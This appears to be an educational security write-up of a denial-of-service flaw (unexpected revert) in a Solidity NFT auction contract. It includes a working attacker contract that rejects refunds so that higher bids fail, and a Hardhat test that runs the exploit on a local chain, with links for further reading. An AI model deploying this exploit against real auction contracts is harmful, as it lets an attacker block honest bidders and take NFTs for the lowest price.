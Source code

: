 The **Auction.sol** smart contract allows any user in the Internet to bid for ERC721 NFT tokens during a period of 7 days, after which the highest bidder may collect it.
However it contains a design flaw that, when exploited, gives a malicious bidder the opportunity to walk away with the NFT for the lowest price.

![Exploiting Auction.sol](https://cdn.glitch.global/67410202-16c0-4d12-bc48-1a6e6eaae69e/AuctionAttack.jpg)

The POC (proof of concept) consists of 2 files:

1. The malicious contract, `contracts/attack/AuctionAttack.sol`
```solidity
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../vulnerable/Auction.sol";

contract AuctionAttack {
  address payable _owner;
  Auction _auctionContract;
  constructor (address _existingAuctionContractAddress) payable {
    _owner = payable(msg.sender);
    _auctionContract = Auction(_existingAuctionContractAddress);
  }

  function onERC721Received(address, address, uint256, bytes calldata) public pure returns(bytes4) {
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
  }

  modifier onlyOwner {
    require(_owner == msg.sender, "Only the owner may call");
    _;
  }

  fallback() external onlyOwner {
    // reject any refunds because the sender is not the attacker
  }

  function bid(uint256 _id) public onlyOwner {
    _auctionContract.bid{ value: 1.000001 ether }(_id);
  }

  function collect(uint256 _id) public onlyOwner {
    // this contract collects the NFT
    _auctionContract.collect(_id);
    // transfer the NFT to the attacker
    ERC721 nftContract = ERC721(_auctionContract.nftContract());
    nftContract.safeTransferFrom(address(this), _owner, _id);
    // disable this contract and return the remaining ETH to the attacker
    selfdestruct(_owner);
  }
}
```

2. The hardhat test
```javascript
    // POC can go here:
    tokenId++;
    console.log("\n EXPLOIT : \n");

    console.log("Mint a new NFT");
    tx = await auction.connect(minter).list({ value: parseEth("1", "ether") });
    await expect(tx).to.emit(auction, "ListedId").withArgs(tokenId, minter.address);
    console.log("The initial owner of NFT #", tokenId, "is", await mock721.ownerOf(tokenId));

    let balance = await attacker.provider.getBalance(attacker.address);
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's initial balance is: ", balance, "ETH");
    console.log("Attacker address:", attacker.address, "deploys a corrupt contract with enough ETH to make a bid.");
    const AuctionAttack = await ethers.getContractFactory("AuctionAttack", attacker);
    const auctionAttack = await AuctionAttack.deploy(auction.address, { value: parseEth("1.5", "ether") });

    console.log("The attacker's contract makes the lowest bid.");
    tx = await auctionAttack.bid(tokenId);

    console.log("bidder1's high bid is expected to fail.");
    await expect(auction.connect(bidder1).bid(tokenId, { value: parseEth("2", "ether") })).to.be.reverted;

    console.log("bidder2's higher bid also fails.");    
    await expect(auction.connect(bidder2).bid(tokenId, { value: parseEth("3", "ether") })).to.be.reverted;

    console.log("Fast forward 7 days, it is NFT collection time!"); 
    // fast forward blockchain time by 7 days
    await ethers.provider.send("evm_mine", [(await blockchainNow()) + 804800]); 
    tx = await auctionAttack.collect(tokenId);
    await expect(tx).to.emit(auction, "TransferId").withArgs(tokenId, minter.address, auctionAttack.address);

    console.log("Now the NFT owner is ", await mock721.ownerOf(tokenId));

    balance = await attacker.provider.getBalance(attacker.address);
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's final balance is: ", balance);
}
```

For further reading about this type of vulnerability:
- https://swcregistry.io/docs/SWC-113
- https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/#dos-with-unexpected-revert
